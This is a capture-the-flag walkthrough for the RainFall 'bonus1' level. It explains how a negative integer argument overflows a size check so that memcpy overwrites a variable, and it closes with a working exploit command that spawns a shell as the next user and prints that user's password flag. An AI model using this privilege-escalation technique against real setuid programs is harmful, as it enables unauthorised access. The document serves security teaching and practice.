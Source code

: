 # bonus1 walkthrough

Given setuid binary:

bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 idk
bonus1@RainFall:~$

There is a memcpy() call which is vulnerable to buffer overflow.
The program take two arguments.
The first argument is converted to an integer using atoi() let's call it nb. If we want to access to memcpy() nb must be less than or equal to 9.
The second argument is copied into a buffer located 40 bytes above the location of the atoi() return. Then nb is compared to 0x574f4c46, if thouse are equal the program will call execl().
The problem is that memcpy() will copy only 4 * nb bytes of argv[2]. So 36 is the maximum number of bytes that can be copied into the buffer (9 * 4 = 36).
Instead of a positive nb we can provide to memcpy a negative nb.
The value of nb is stored in a DWORD (32 bits), the minimum value of a 32-bit signed integer is -2147483647.

                                                       32 bits
                                                          |
    int_min     = 0000 0000 0000 0000 0000 0000 0000 0000 | 1000 0000 0000 0000 0000 0000 0000 0001 = -2147483647
    int_min * 4 = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0000 0100 = 4

We can see that after 32 bits, the rest is being ignored, we can abuse that.
If we change the first 32 bits of int_min * 4 in order to have 44 (0b101100), we can retrieve normal decimal number.

                                                        32 bits
                                                           |
    random_int   = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0010 1100 = 44 (-8589934548)
    random_int/4 = -2147483637

Now we have our first arg: -2147483637 which is less than 9 and will give us 44 when multiplied by 4.
For the second arg, we need to fill the buffer with the first 40 bytes (padding). Then the last 4 bytes will erase the value of nb and replace it with 0x574f4c46.

    bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
    $ whoami
    bonus2
    $ cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
